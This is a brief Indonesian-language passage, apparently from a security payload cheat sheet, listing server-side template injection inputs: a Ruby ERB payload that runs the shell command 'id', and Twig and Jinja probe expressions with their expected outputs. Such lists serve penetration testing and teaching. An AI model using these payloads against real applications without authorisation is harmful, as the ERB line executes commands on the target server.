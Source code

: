 ## Injeksi Templat

**Ruby**

```ruby
<%=`id`%>
```

**Twig**

Payload berikut akan ditampilkan
`49`.

```
{{7*'7'}}
```

**Jinja**

Muatan ini harus dikeluarkan `7777777`.

```
{{7*'7'}}
```
